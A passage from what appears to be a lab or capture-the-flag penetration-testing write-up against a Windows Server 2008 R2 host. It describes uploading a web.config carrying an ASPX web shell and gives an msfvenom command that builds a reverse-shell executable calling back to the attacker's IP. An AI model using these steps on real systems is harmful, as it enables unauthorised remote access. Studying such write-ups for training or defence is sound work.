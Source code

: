 2. I used the iiss.config file found here (https://gist.github.com/gaitonde-bhau/8e1e46f005415a5bf20dcbd28129534a) as my web.config file.  It has embedded aspx code that provides an interface to execute commands on the target.  I noticed that periodically this file would disappear from the server, so I had to re-upload it when I received a 404 error.  I used this to determine the server is running Windows Server 2008 R2 x64.
   ![image-20201116201454805](.Report.assets/image-20201116201454805.png)

3. I created a reverse shell executable and served it up on an SMB server on Kali, then I used this web.config form to copy it to the server:

   ```bash
   msfvenom -p windows/shell_reverse_tcp LPORT=8000 LHOST=10.10.14.37 --platform w
   indows -a x86 --format exe -o win_revtcp_8000.exe
   ```
